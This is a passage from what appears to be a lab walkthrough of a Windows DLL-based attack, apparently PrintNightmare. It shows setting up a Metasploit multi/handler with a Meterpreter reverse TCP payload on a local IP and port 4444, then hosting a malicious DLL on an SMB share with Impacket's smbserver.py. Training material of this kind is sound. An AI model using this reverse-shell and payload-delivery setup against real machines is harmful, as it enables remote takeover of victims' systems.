 Note: The value for LHOST and LPORT must be the same values you used to create the malicious DLL. 

```
Configure a Metasploit listener

msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.0.100
lhost => 192.168.0.100 msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) >
```

Next, run it so it will be actively waiting for a connection. 

```
Start the listener to accept incoming connections

msf5 exploit(multi/handler) > run -j 
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP on 192.168.0.100:4444
```

The -j simply means to run it as a job. 

```
Check the Metasploit Job status

msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.0.100:4444

msf5 exploit(multi/handler) >


```
Great, now you'll need to host the malicious DLL in a SMB share running on the attacker box. We'll use the AttackBox in this example.

Below is how to do this with smbserver.py from Impacket.

```
Start the SMB share with Impacket to host the malicious DLL

root@attackbox:~/Desktop/pn# smbserver.py share /root/Desktop/share/ -smb2support 
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
